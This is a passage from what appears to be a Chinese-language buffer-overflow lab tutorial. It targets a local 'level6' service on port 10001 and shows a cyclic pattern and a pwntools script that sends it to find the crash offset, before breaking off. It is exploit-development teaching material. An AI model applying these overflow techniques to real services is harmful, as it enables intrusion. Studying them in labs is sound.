 现在我们尝试连接一下：

```
$ nc 127.0.0.1 10001
Hello, World

```

发现工作正常。OK，那么我们开始进行BOF吧。

和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：

```
python pattern.py create 150 

```

来生成一串测试用的150个字节的字符串：

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

```

然后我们写一个py脚本来发送这串数据。

```
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

raw_input()

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"

p.send(payload)

p.interactive()

```

但因为我们需要获取崩溃时pc的值，所以在发送数据前，我们先使用gdb加载上level6。

我们先在电脑上运行python脚本：

```
[pc]$ python test.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
…

```
